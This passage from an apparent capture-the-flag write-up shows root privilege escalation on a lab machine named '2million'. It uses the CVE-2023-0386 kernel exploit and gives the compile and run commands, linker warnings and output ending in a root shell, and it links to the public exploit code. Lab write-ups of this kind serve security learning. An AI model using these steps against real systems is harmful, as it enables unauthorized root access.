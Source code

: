 - Now login with SSH since it's more stable shell and move to root escalation.

---

## 👑 Root Privilege Escalation

- For gaining root access, we will exploit `CVE-2023-0386`. The exploit is already downloaded on target machine and you can find details on how to use it [here](https://github.com/sxlmnwb/CVE-2023-0386).

- Start another terminal and login as admin with SSH. On the first terminal we will make the exploit and compile it.

  ```
  admin@2million:~$ cd CVE-2023-0386/
  admin@2million:~/CVE-2023-0386$ make all
  gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
  /usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
  (.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
  gcc -o exp exp.c -lcap
  gcc -o gc getshell.c
  
  admin@2million:~/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
  [+] len of gc: 0x3ee0
  mkdir: File exists
  ```
  
- On the second terminal we will just run the exploit from same directory that we compiled it and get root.

  ```
  admin@2million:~/CVE-2023-0386$ ./exp
  uid:1000 gid:1000
  [+] mount success
  total 8
  drwxrwxr-x 1 root   root     4096 Jun 11 23:15 .
  drwxrwxr-x 6 root   root     4096 Jun 11 23:13 ..
  -rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
  [+] exploit success!
  To run a command as administrator (user "root"), use "sudo <command>".
  See "man sudo_root" for details.
  
  root@2million:~/CVE-2023-0386# whoami
  root
  root@2million:~/CVE-2023-0386# id
  uid=0(root) gid=0(root) groups=0(root),1000(admin)
  ```
  
- Read the flag and it's done.

---

## 🏁 Flags
